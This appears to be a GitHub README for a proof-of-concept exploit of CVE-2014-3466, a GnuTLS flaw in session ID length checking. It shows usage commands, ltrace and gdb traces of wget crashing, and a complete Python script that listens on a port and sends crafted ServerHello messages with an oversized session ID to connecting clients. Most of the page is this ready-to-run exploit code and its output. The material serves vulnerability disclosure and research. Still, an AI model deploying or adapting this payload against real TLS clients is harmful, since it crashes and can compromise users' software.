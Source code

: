 Usage
-----

    $ python poc.py 4433

    $ ldd $(which wget)
    ...
        libnettle.so.4 => /usr/lib/x86_64-linux-gnu/libnettle.so.4 (0x00007fa8a026e000)
        libgnutls.so.28 => /usr/lib/x86_64-linux-gnu/libgnutls.so.28 (0x00007fa89ff5c000)
    ...

    $ ltrace -riS -e gnutls_handshake wget -d https://localhost:4433
    ...
      0.000096 [0x4308a0] wget->gnutls_handshake(0xdf5380, 4, 0xa4dd30, 0x7f30f2731620 <unfinished ...>
      0.000216 [0x7f30f246b807] SYS_writev(4, 0x7fffc0b9c970, 1)    = 272
      0.000067 [0x7f30f2473a4d] SYS_recvfrom(4, 0xdf7920, 5, 0)     = 5
      0.500357 [0x7f30f2473a4d] SYS_recvfrom(4, 0xdfbad0, 250, 0)   = 250
      0.000095 [0x7f30f2e408f0] --- SIGSEGV (Segmentation fault) ---
      0.004670 [0xffffffffffffffff] +++ killed by SIGSEGV +++

    $ sudo apt-get install libgnutls28-dbg
    $ gdb --args wget https://localhost:4433
    ...
    (gdb) r
    ...
    (gdb) bt full
    ...
    #0  0x00007ffff79548f0 in _gnutls_supported_ciphersuites (session=session@entry=0xa5e380,
        cipher_suites=cipher_suites@entry=0x7fffffffd340 <incomplete sequence \366\245>,
        max_cipher_suite_size=max_cipher_suite_size@entry=512) at ciphersuites.c:1311
    #1  0x00007ffff78c759a in _gnutls_client_set_ciphersuite (session=session@entry=0xa5e380,
        suite=suite@entry=0xa64b5b '\377' <repeats 111 times>) at gnutls_handshake.c:1525
    #2  0x00007ffff78cae15 in _gnutls_read_server_hello (datalen=<optimized out>,
        data=0xa64a70 "\003\001S\213\177c\301\016\035r\n\263\370\247\017\365]ieXB\200\301\373Oۚ\252\004\243\323Kq\307\310", '\377' <repeats 165 times>..., session=0xa5e380) at gnutls_handshake.c:1778
    #3  _gnutls_recv_hello (session=session@entry=0xa5e380,
        data=0xa64a70 "\003\001S\213\177c\301\016\035r\n\263\370\247\017\365]ieXB\200\301\373Oۚ\252\004\243\323Kq\307\310", '\377' <repeats 165 times>..., datalen=<optimized out>) at gnutls_handshake.c:2222
    #4  0x00007ffff78cb64f in _gnutls_recv_handshake (session=session@entry=0xa5e380,
        type=type@entry=GNUTLS_HANDSHAKE_SERVER_HELLO, optional=optional@entry=0, buf=buf@entry=0x0)
        at gnutls_handshake.c:1442
    ...

POC.py
------

    #!/usr/bin/env python
    #
    # PoC for CVE-2014-3466
    # (gnutls: insufficient session id length check in _gnutls_read_server_hello)
    #
    # Author:   Aaron Zauner <azet@azet.org>
    # License:  CC0 1.0 (https://creativecommons.org/publicdomain/zero/1.0)
    #
    import sys
    import socket
    import time

    # Record Layer
    R_Type          = '16'          # Handshake Protocol
    R_Version       = '03 01'       # TLS 1.0
    R_Length        = '00 fa'       # 250 Bytes

    # Handshake Protocol: ServerHello
    HS_Type         = '02'          # Handshake Type: ServerHello
    HS_Length       = '00 00 f6'    # 246 Bytes
    HS_Version      = '03 01'       # TLS 1.0
    HS_Random       = '''
    53 8b 7f 63 c1 0e 1d 72 0a b3 f8 a7 0f f5 5d 69
    65 58 42 80 c1 fb 4f db 9a aa 04 a3 d3 4b 71 c7
    '''                             # Random (gmt_unix_time + random bytes)
    HS_SessID_Len   = 'c8'          # Session ID Length 200 Bytes (!)
    HS_SessID_Data  = '''
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff ff
    '''                             # Session ID Data (Payload)

    MaliciousServerHello = (
        R_Type      + R_Version     + R_Length          +
        HS_Type     + HS_Length     + HS_Version        +
        HS_Random   + HS_SessID_Len + HS_SessID_Data
    ).replace(' ', '').replace('\n', '').decode('hex')

    def main():
        try:
            PORT = int(sys.argv[1])
            sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            sock.bind(('', PORT))
            sock.listen(1)
            print "-- started listener on port", PORT

            while True:
                conn, addr = sock.accept()
                print "<< client connected:", addr

                time.sleep(0.5) # wait for ClientHello :P
                if conn.send(MaliciousServerHello):
                    print ">> sent payload to", addr[0]

                conn.close()
        finally:
            sock.close()

    if __name__ == '__main__':
        if len(sys.argv) <= 1:
           print "  Usage:\n\tpython poc.py [port]\n"
           exit(1)

        main()